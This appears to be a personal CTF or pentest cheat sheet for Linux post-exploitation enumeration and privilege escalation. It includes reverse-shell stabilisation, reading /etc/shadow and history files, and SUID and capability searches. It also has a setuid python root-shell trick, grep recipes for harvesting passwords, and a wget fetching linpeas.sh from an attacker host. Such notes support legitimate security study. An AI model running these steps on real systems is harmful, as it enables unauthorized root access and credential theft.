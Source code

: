 
short:
id
sudo -l
ls -la /opt
cat /etc/crontab


Start
	`pwd`
	`ls -la`
	`ls -la *` for files in `~`
	check history files `cat ~/.*history`

Stabilize shell and make it interactive
	`python3 -c 'import pty;pty.spawn("/bin/bash")'`
	or `python -c 'import pty;pty.spawn("/bin/bash")'` if ooold python
	Ctrl+z
	`stty raw -echo; fg` (ctrl+c and other special chars sent + turning of echo)
	`export TERM=xterm`

User info
	`id` privilege level and group memberships
	`whoami`

Machine
	`hostname`
	`cat /etc/os-release`
	`uname -a`
	`cat /proc/version` also gcc info
	`cat /etc/issue`

Other
	`env` show environment variables
	`history`

find users on machine
	`cat /etc/passwd` users and might find info on services through their accounts
	~/ `ls -la ..`
	check permissions on other users directories

File system - interesting files?
	`ls -la /opt`
	`ls -la /var/backup`
	check logs in `/var/log`
	are there email? how to find? `/var/mail` `/var/spool/mail`
	is `/etc/shadow` readable/writeable
	is `/etc/passwd` writeable

Check config files
	`cat /etc/exports` nfs config file

What's scheduled
	`crontab -l` lists jobs for active user
	`cat /etc/crontab` list system wide jobs
	[[cron - crontab]]
	...

Permission info
	`sudo -l` list all commands your user can run using `sudo`
	Find SUID binaries
		`find / -perm -u=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SGID binaries
		`find / -perm -g=s -type f -exec ls -la {} \; 2>/dev/null`
	Find SUID and SGID binaries
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} \; 2> /dev/null`
		`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -la {} + 2> /dev/null|cat`
		compare to [gtfobins](https://gtfobins.github.io/)
	Find sticky-bit directories, missing on tmp? (restricted deletion flag - other users can't overwrite/delete files in the dir)
		`find / -perm -1000 -type d 2>/dev/null`

Our permissions
	Find writable files
		`find /etc -writable -ls 2>/dev/null`
	Find files with permissions for your group (if user has extra groups)
		`find / -type f -group `mygroup` -exec ls -l {} + 2>/dev/null`
	Find write exec perm directories
		`find / -perm -o x -type d 2>/dev/null`
	Find files with capability "permissions"
		`getcap -r / 2>/dev/null`
	Find files with root owner, our group and group write permissions
		`find / -type f -user root -group <your-group> -perm -g=w -exec ls -l {} + 2> /dev/null|cat`

if setcap has suid permissions
	`setcap cap_setuid+ep ./python3`
	`getcap -r / 2>/dev/null`
	`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

check for ssh keys
	`/home/<user>/.ssh`
	Can we add a user
		[Dirty C0w](https://dirtycow.ninja/) 
		writeable /etc/shadow or /etc/passwd

what processes are running
	`ps aux|cat` show processes for all users (a), display user that launched the process (u), show processes not attached to a terminal (x)
	`ps auxf|cat` can see all the things!!! thanks stderr_dk
	`ps axjf` tree style (f)
	`ps axf`
	are we in a docker container? tiny number of processes
	[[pspy]]

Open ports
	`ss -tulpn`
	`netstat -antplue`
	`netstat -ano`

finding files, like flags:
	`find / -type f -name flag2.txt 2> /dev/null`

if it's a web server with php:
	cat /var/www/html/configuration.php or grep for password
---

search in logfiles and binaries for usernames and passwords
- `strings filename | grep -i -E "user|name|pass" -C5`
- `grep -i -E "user|name|pass" -C5 file1 file2` for text files and logs..

Recursively strings + grep
- `find [dirname] -type f -exec sh -c 'strings "$1" | grep -i -E "user|name|pass" -C5' sh {} \;`

Recursively strings +/ grep only using strings for binaries
- `find [dirname] -type f -exec sh -c 'file "{}" | grep -q "text" && grep -i -E "user|name|pass" -C5 "{}" || strings "{}" | grep -i -E "user|name|pass" -C5' \;`

if we found a git repo or web dir on the machine
 in dir, do:
 `grep -ri user`
 `grep -ri pass`
 one level?

---

network
	`ifconfig` what interfaces exist..
	`ip route` check this with route table


---

Use tools
	[[enum4linux|enum4linux]]
	[[linpeas]] [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
	`wget 10.18.21.236:8000/enum/linpeas.sh`
	[LinEnum](https://github.com/rebootuser/LinEnum)
	[LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
	[Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
	[Linux Priv Checker](https://github.com/linted/linuxprivchecker)

